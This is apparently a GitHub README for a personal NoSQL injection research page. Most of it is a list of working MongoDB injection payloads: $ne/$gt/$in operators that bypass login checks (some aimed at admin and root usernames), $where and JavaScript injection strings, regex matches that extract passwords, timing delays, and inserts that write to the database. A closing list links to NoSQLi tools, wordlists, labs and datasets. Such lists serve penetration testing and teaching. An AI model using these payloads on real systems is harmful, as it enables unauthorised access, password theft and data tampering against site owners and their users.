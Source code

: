 # Injection
This is my injection research area

# Example:

Number one:
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```
# Reference
1. [Wiki NOSQL](https://en.wikipedia.org/wiki/NoSQL)
2. [NOSQL-DataBase](http://nosql-database.org/)
3. [GO NoSQLi](https://github.com/Charlie-belmer/nosqli)
4. [NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
5. [Testing for NoSQLi](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
6. [Injection MongoDB](https://zanon.io/posts/nosql-injection-in-mongodb/)
7. [nosql-injections-classique-blind](https://www.dailysecurity.fr/nosql-injections-classique-blind/)
8. [Python NOSQLi username and password](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)
9. [Wordlist Mongo](https://github.com/cr0hn/nosqlinjection_wordlists/tree/master)
10. [NoSQLi Lab](https://github.com/digininja/nosqlilab)
11. [Fault-Injection-Dataset](https://github.com/dessertlab/Fault-Injection-Dataset)
12. [Synthetic-dataset-for-SQL-Injection](https://github.com/lsiddiqsunny/Synthetic-dataset-for-SQL-Injection)
13. [Injection attacks in apps with NoSQL Backends](https://github.com/riyazwalikar/injection-attacks-nosql-talk)
14. [400 dataset analysis no-sql dataset](https://github.com/capnmav77/No-SQL_Gen/blob/master/DatasetAnalytics.ipynb)


